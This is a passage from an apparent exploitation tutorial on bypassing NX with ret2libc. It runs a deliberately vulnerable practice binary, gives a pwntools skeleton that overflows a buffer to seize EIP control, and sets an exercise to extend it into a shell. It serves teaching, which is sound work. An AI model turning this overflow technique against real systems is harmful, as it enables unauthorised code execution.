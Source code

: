 Running the binary:

```
ubuntu@ubuntu-xenial:/vagrant/lessons/7_bypass_nx_ret2libc/build$ ./3_vulnerable
TEST
ubuntu@ubuntu-xenial:/vagrant/lessons/7_bypass_nx_ret2libc/build$
```

It really does not do much. Here is the skeleton exploit code to achieve EIP control.

```
#!/usr/bin/python

from pwn import *

def main():
    # Start the process
    p = process("../build/3_vulnerable")

    # Print the pid
    raw_input(str(p.proc.pid))

    # Craft the payload
    payload = "A"*76 + p32(0xdeadc0de)
    payload = payload.ljust(96, "\x00")

    # Send the payload
    p.send(payload)

    # Pass interaction to the user
    p.interactive()

if __name__ == "__main__":
    main()
```

### Exercise 7.1: Writing the Final Exploit

At this point, it is simply a matter of finding at which address is libc mapped onto and then calculating the addresses of useful functions from the offsets we dumped.

Try to obtain a shell by making the necessary additions to the skeleton code. Please attempt to do this on your own before looking at the solution.
